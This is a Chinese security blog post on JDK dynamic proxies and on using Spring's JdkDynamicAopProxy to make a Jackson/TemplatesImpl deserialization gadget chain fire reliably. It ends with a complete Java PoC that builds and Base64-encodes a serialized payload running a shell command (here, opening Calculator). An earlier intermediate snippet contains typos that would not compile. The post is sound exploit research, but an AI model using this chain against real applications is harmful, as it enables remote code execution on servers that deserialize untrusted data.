 # JDK动态代理-AOP

  
  
&lt;!--more--&gt;  
## 0x00 前言  
在Java中动态代理是很强大的，被代理对象所能调用的方法取决于我们所给的接口，其功能取决于我们所给的`handler`。  
## 0x01 原理分析  
JDK动态代理需要了解两个类  
- `InvocationHandler`调用处理程序类和`Proxy`代理类  
`InvocationHandler`调用处理程序  
`public interface InvocationHandler`  
`InvocationHandler`是由代理实例的调用处理程序实现的接口  
每个代理实例都有一个关联的调用处理程序。  
`Object invoke(Object proxy,Method Method,Object[] args)`  
当在代理实例上调用方法的时候。会分派到其调用处理程序的`invoke()`方法  
`Proxy`代理类  
`public class Proxy extends Object implements Serializable`  
`Proxy`提供了创建动态代理类和实例的静态方法，它也是由这些方法创建的所有动态代理类的超类。  
动态代理类，是一个实现在类创建时在运行时指定的接口列表的类，具有如下所述的行为。 代理接口是由代理类实现的接口。 代理实例是代理类的一个实例。  
```  
public static Object newProxyInstance(ClassLoader loader, Class&lt;?&gt;[] interfaces, InvocationHandler h) throws IllegalArgumentException  
```  
demo  
```java  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Method;  
import java.lang.reflect.Proxy;  
  
public class JDKProxy {  
    public static void main(String[] args) {  
        Object myProxy = Proxy.newProxyInstance(MyProxy.class.getClassLoader(), new Class[]{MyInterface1.class,MyInterface2.class}, new MyHandler());  
        for(Method m:myProxy.getClass().getDeclaredMethods()){  
            System.out.println(m.getName());  
        }  
    }  
}  
  
interface MyInterface1 {  
    public void sayYes();  
}  
  
interface MyInterface2 {  
    public void sayNo();  
}  
  
class MyProxy{  
    public void eat(){  
        System.out.println(&#34;eat&#34;);  
    }  
    public void say() {  
        System.out.println(&#34;say something&#34;);  
    }  
    public String getName(String a) {  
        return a;  
    }  
}  
class MyHandler implements InvocationHandler {  
    @Override  
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {  
        System.out.println(&#34;invoke dynamic proxy handler&#34;);  
        return null;  
    }  
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060118523.png)
其反射获得到的方法完全是根据接口来的，不管被代理的类是否实现了对应的方法。动态代理中方法的实现都方法在了`handler`中的`invoke`方法中了，调用其任意方法都会在`invoke`方法中执行，所以看所给的接口和`handler`就可以了。  
而`javax.xml.transform.Templaes`接口其只有`newTransformer`和`getOutputProperties`这两个方法，让其作为我们代理所需要的接口，这样最终通过`getDeclaredMethods`获取到的方法就只有`newTransformer`和`getOutputProperties`了，最终获得的`getter`方法便只有`getOutputProperties`了。  
所以我们需要找一个`handler`，他的`invoke`方法中能执行我们所调用的方法即可。  
在`JdkDynamicAopProxy`是`Spring`框架中的一个类，它实现了JDK动态代理机制，用于创建代理对象来实现面向切面编程(AOP)的功能。  
`org.springframework.aop.framework.JdkDynamicAopProxy`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060130546.png)
重点看`invoke()`函数  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060131860.png)
这里会执行所调用的`method`，`target`获取到的对象是由`advised`属性得到的，我们所需要的`TemplatesImpl`的对象用`org.springframework.aop.framework.AdvisedSupport`封装。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060133565.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060133143.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060134674.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504060135608.png)
构造`templatesImpl`封装一下  
```java  
Class&lt;?&gt; clazz = Class.forName(&#34;org.springframework.aop.framework.JdkDynamicAopProxy&#34;);    
Constructor&lt;?&gt; constructor = clazz.getConstructor(AdvisedSupport.class);    
constructor.setAccessible(true);    
AdvisedSupport advisedSupport = new AdvisedSupport();    
advisedSupport.setTargetClass(templatesImpl);    
InvocatioHandler handler = (InvokeHandler) constructor.newInstance(advisedSupport);    
Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);    
POJONode jsonNodes = new POJONode(proxyObj);  
```  
## 稳定Payload  
```java  
import com.fasterxml.jackson.databind.node.POJONode;    
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import javassist.*;    
import org.springframework.aop.framework.AdvisedSupport;    
import javax.management.BadAttributeValueExpException;    
import javax.xml.transform.Templates;    
import java.io.*;    
import java.lang.reflect.*;    
import java.util.Base64;    
    
public class Poc {    
    public static void main(String[] args) throws Exception {    
        ClassPool pool = ClassPool.getDefault();    
        CtClass ctClass0 = pool.get(&#34;com.fasterxml.jackson.databind.node.BaseJsonNode&#34;);    
        CtMethod writeReplace = ctClass0.getDeclaredMethod(&#34;writeReplace&#34;);    
        ctClass0.removeMethod(writeReplace);    
        ctClass0.toClass();    
    
        CtClass ctClass = pool.makeClass(&#34;a&#34;);    
        CtClass superClass = pool.get(AbstractTranslet.class.getName());    
        ctClass.setSuperclass(superClass);    
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);    
        constructor.setBody(&#34;Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;);&#34;);    
        ctClass.addConstructor(constructor);    
        byte[] bytes = ctClass.toBytecode();    
    
        Templates templatesImpl = new TemplatesImpl();    
        setFieldValue(templatesImpl, &#34;_bytecodes&#34;, new byte[][]{bytes});    
        setFieldValue(templatesImpl, &#34;_name&#34;, &#34;test&#34;);    
        setFieldValue(templatesImpl, &#34;_tfactory&#34;, null);    
        //利用 JdkDynamicAopProxy 进行封装使其稳定触发    
        Class&lt;?&gt; clazz = Class.forName(&#34;org.springframework.aop.framework.JdkDynamicAopProxy&#34;);    
        Constructor&lt;?&gt; cons = clazz.getDeclaredConstructor(AdvisedSupport.class);    
        cons.setAccessible(true);    
        AdvisedSupport advisedSupport = new AdvisedSupport();    
        advisedSupport.setTarget(templatesImpl);    
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);    
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);    
        POJONode jsonNodes = new POJONode(proxyObj);    
    
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);    
        Field val = Class.forName(&#34;javax.management.BadAttributeValueExpException&#34;).getDeclaredField(&#34;val&#34;);    
        val.setAccessible(true);    
        val.set(exp,jsonNodes);    
    
        ByteArrayOutputStream barr = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);    
        objectOutputStream.writeObject(exp);    
        objectOutputStream.close();    
        String res = Base64.getEncoder().encodeToString(barr.toByteArray());    
        System.out.println(res);    
    
    }    
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{    
        Field f = obj.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(obj, arg);    
    }    
}  
```  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/jdk%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86-aop/  

